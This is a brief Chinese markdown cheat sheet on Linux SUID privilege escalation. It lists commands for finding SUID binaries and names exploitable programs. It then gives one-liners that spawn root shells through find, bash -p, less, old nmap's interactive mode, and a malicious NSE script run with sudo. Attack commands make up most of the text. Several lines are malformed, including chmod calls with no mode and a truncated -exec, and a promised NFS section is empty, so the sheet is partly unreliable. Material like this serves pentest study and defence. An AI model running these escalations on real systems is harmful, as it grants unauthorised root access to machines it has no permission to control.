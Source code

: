 # NFS提权
# suid提权
首先查看带有suid权限的文件

    find / -perm -u=s -type f>a.txt
    find / -perm -u=s -type f 2>/dev/null
    find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} ;
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下

    Nmap
    Vim
    find
    Bash
    More
    Less
    Nano
    cp

# 设置环境
    find / -name find | xargs ls -F
`查找后缀有*的可执行文件`

    chmod u+s /usr/bin/find
    ls -al /usr/bin/find
# find
    chmod +s /usr/bin/find
    find / -type f -name getflag -exec "whoami" \;
    find / -type f -name getflag -exec "/bin/sh" \;
    find . -exec '/bin/sh' \;
# bash
    chmod /bin/bash
    bash -p
# less
    chmod /bin/less
    less /etc/passwd
    !/bin/sh
# nmap
## 老版本
    chmod +s /usr/bin/nmap
    nmap --interactive
## 如果nmap不需要root密码即可执行
    sudo -l

如果发现(root)NOPASSWD:/usr/bin/nmap

    echo 'os.execute("/bin/sh")' > getShell.nse
    sudo -u root nmap --script=getShell.nse